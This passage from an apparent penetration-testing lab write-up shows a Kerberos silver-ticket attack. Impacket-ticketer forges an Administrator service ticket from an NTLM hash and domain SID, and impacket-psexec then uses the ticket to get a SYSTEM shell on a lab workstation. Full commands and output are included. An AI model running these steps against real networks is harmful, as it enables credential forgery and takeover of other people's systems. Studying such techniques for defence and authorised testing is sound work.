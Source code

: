 We retrieve “S-1-5-21-959419240-2884325028-3653872830-500”. We remove -500 and are left over with the domain-sid “S-1-5-21-959419240-2884325028-3653872830”. Now lets create a ticket and impersonate Administrator:

```bash
┌──(kali㉿kali)-[~/blog]
└─$ impacket-ticketer -nthash 8606a440fcfb819c07597bb0e003a876 -domain-sid S-1-5-21-959419240-2884325028-3653872830 -domain powercorp.local -dc-ip 10.10.1.128 -spn CIFS/10.10.1.129 Administrator
Impacket v0.12.0.dev1+20240327.181547.f8899e65 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for powercorp.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

The ticket is saved in a .ccache file. We will export it into our environment as “KRB5CCNAME”. Since this is the default Kerberos credential caching and this is where tools like impacket will look if we specify to use Kerberos authentication instead of NTLM using “-k”.

**Export ticket to environment**

```bash
export KRB5CCNAME=Administrator.ccache
```

Now with the ticket in our environment, we can for example use impacket-psexec to get a shell as system on WS01:

```bash
┌──(kali㉿kali)-[~/blog]
└─$ impacket-psexec administrator@10.10.1.129 -k -no-pass 
Impacket v0.12.0.dev1+20240327.181547.f8899e65 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.1.129.....
[*] Found writable share ADMIN$
[*] Uploading file yUYsErdC.exe
[*] Opening SVCManager on 10.10.1.129.....
[*] Creating service CSRl on 10.10.1.129.....
[*] Starting service CSRl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.4291]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
